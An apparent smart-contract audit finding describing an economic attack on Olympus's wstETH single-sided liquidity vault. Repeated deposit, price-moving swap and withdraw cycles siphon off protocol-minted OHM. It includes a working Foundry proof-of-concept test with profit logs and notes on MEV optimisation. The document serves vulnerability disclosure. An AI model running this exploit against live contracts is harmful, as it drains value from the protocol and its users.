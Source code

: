 immeas

medium

# Trading within threshold can siphon out minted ohm

## Summary
A user can make a large deposit at current price. Make a small trade to move the price just enough then withdraw and take out a bit of the `OHM` value minted for the pool.

## Vulnerability Detail

The protocol provides liquidity with minted OHM and a pair token, `wstETH` in the current case. On deposit the vault mints as much `OHM` as the price suggest for the liquidity pool then deposits this. It also stakes the lp tokens with Aura but that is besides the point for this issue.

Once in the pool they are available for trading. If the price of the pool moves too much compared to chainlink oracles `deposit` and `withdraw` are disallowed. 

There is a possibility though to siphon some `OHM` value out. If a user does a large deposit into the pool, the olympus will match with `OHM`. Then the user does a just large enough trade to increase the `wstETH` in the pool and then withdraws. Since the composition of the pool has changed just slightly the withdrawn value will contain a little bit more `wstETH`.

Combined with the trade `wstETH -> OHM` this will siphon some value out of the protocol provided `OHM`.

As long as the price of `OHM` is high enough that the `OHM` siphoned out is worth more than the `wstETH` that is traded this attack can go on.


PoC test in `WstethLiquidityVaultFork.t.sol`
```solidity
    function testDepositSwapWithdraw() public {
        FundManagement memory fund = FundManagement({
            sender: bob,
            fromInternalBalance: false,
            recipient: payable(bob),
            toInternalBalance: false
        });

        // some initial liquidity
        vm.prank(alice);
        liquidityVault.deposit(2e18, 0);

        vm.startPrank(bob);
        ohm.approve(address(vault),type(uint256).max);
        wsteth.approve(address(vault),type(uint256).max);
        wsteth.approve(address(liquidityVault),type(uint256).max);
        vm.stopPrank();

        uint256 bobBefore = wsteth.balanceOf(bob);
        
        uint256 swapAmt = 3e9;
        vm.startPrank(bob);
        // iterate this attack while keeping the pool price within THRESHOLD
        for(uint256 i = 1 ; i<=25; i++) {
            // deposit at current price
            liquidityVault.deposit(3e18, 0);
            
            // do a swap to increase amount of wsteth in pool
            SingleSwap memory swapToOhm = SingleSwap({
                poolId: liquidityPool.getPoolId(),    
                kind: SwapKind.GIVEN_OUT,
                assetIn: address(wsteth),
                assetOut: address(ohm),
                amount: swapAmt, // this can be optimized and calculated to be just within THRESHOLD for MEV
                userData : ""
            });
            vault.swap(swapToOhm, fund, 1e18, block.timestamp + 10);

            // withdraw slightly more wsteth
            liquidityVault.withdraw(liquidityVault.lpPositions(bob),minTokenAmounts_,false);

            // swap back some ohm to wsteth to recover some wstweth to use for next round and also reset the pool price a bit
            SingleSwap memory swapBack = SingleSwap({
                poolId: liquidityPool.getPoolId(),    
                kind: SwapKind.GIVEN_IN,
                assetIn: address(ohm),
                assetOut: address(wsteth),
                amount: 2*swapAmt/7, // this can be optimized and calculated to be just within THRESHOLD for MEV
                userData : ""
            });
            vault.swap(swapBack, fund, 1000, block.timestamp + 10);
        }
        vm.stopPrank();

        uint256 bobAfter = wsteth.balanceOf(bob);
        // bob ohm balance ~53 ohm ~ $530
        console2.log("ohm.balanceOf(bob)",ohm.balanceOf(bob));
        // at a cost of 0.008 wsteth ~ $13
        console2.log("wsth diff bob",bobBefore - bobAfter);
        // total profit in this block $500 without gas fees and possible flash loan fees, this can be optimized for MEV as well
    }
```
Gives output
```bash
$ forge test -vvv --match-test=testDepositSwapWithdraw
[⠆] Compiling...
No files changed, compilation skipped

Running 1 test for src/test/policies/lending/WstethLiquidityVaultFork.t.sol:WstethLiquidityVaultTest
[PASS] testDepositSwapWithdraw() (gas: 15505616)
Logs:
  ohm.balanceOf(bob) 53571428575
  wsth diff bob 7951134438651113

Test result: ok. 1 passed; 0 failed; finished in 21.78s

```

with these changes to `/src/policies/lending/interfaces/IBalancer.sol` from [`IVault.sol`](https://github.com/balancer-labs/balancer-v2-monorepo/blob/master/pkg/interfaces/contracts/vault/IVault.sol):

```diff
diff --git a/src/policies/lending/interfaces/IBalancer.sol b/src/policies/lending/interfaces/IBalancer.sol
index 3a8b463..916bc78 100644
--- a/src/policies/lending/interfaces/IBalancer.sol
+++ b/src/policies/lending/interfaces/IBalancer.sol
@@ -18,6 +18,23 @@ struct ExitPoolRequest {
     bytes userData;
     bool toInternalBalance;
 }
+enum SwapKind { GIVEN_IN, GIVEN_OUT }
+
+struct SingleSwap {
+    bytes32 poolId;
+    SwapKind kind;
+    address assetIn;
+    address assetOut;
+    uint256 amount;
+    bytes userData;
+}
+
+struct FundManagement {
+    address sender;
+    bool fromInternalBalance;
+    address payable recipient;
+    bool toInternalBalance;
+}
 
 // Define Vault Interface
 interface IVault {
@@ -43,6 +60,13 @@ interface IVault {
             uint256[] memory,
             uint256
         );
+
+    function swap(
+        SingleSwap memory singleSwap,
+        FundManagement memory funds,
+        uint256 limit,
+        uint256 deadline
+    ) external payable returns (uint256);
 }
 
 // Define Balancer Base Pool Interfaces

```

## Impact
A user can siphon out `OHM` through doing deposits at one price, then trade and withdraw at another price for a small profit.

I did not find a way to make lots of money with this attack. It is heavily reliant on gas price, liquidity in the pool and the current `THRESHOLD`. If these align though it is possible to make a bit of money each block. Hence submitting this as medium.

## Code Snippet
Hard to point to a specific code snippet. This is rather about the general design and economics.
https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L411-L421

## Tool used
Manual Review, foundry

## Recommendation
Since this is the core of the protocol I don't see an obvious way of mitigating this. I recommend the protocol keeps a close eye on behavior like this. If this happens reducing the `THRESHOLD` a bit or simply staking more to increase liquidity might be a good solution.